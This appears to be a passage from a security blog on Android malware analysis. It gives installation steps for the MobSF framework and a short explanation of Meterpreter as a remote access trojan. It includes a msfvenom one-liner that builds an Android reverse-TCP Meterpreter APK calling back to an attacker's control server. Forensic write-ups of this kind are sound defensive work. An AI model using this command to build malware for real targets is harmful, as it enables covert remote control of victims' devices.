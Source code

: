 Installation methods for ```MobSF```,

> Linux [MobSF]

```
$ sudo apt install python3 python3-dev python3-venv python3-pip build-essential libffi-dev libssl-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev wkhtmltopdf openjdk-11-jdk
$ git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF MobSF
$ cd MobSF && bash setup.sh

```

> Windows [MobSF]

```
$ winget install -e --id Microsoft.VisualStudio.2019.BuildTools
$ winget install -e --id Python.Python.3

# Download and Install wkhtmltopdf from https://wkhtmltopdf.org/downloads.html

$ git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF MobSF
$ cd MobSF & setup.bat

```

## Analysis

### Meterpreter Malware

The Meterpreter is a RAT (Remote Access Trojan) type Malware. Once executed on the victim's device, it will grant an attacker complete access to the device. 

Meterpreter can talk to Command & Control (C2) Server using TCP, HTTP, and HTTPS protocols. For more info on Metasploit Android Modules, refer [here](https://www.infosecmatter.com/metasploit-android-modules/).

The below onliner command is used to craft a ```meterpreter RAT``` using ```Metasploit Framework```,

```c
msfvenom -p android/meterpreter/reverse_tcp LHOST=address LPORT=port -o malware.apk
```

The arguments required for successful tunnel creation for the RAT and C2 server are `LHOST : Attacker IP Address (CONTROL SERVER)` and `LPORT : Attacker Port`

<center>

<img src="https://raw.githubusercontent.com/securebinary/CDN/main/Blogs/Forensics/Meterpreter-XLoader-Malware/images/image1.png" style="width:80%">
</center>
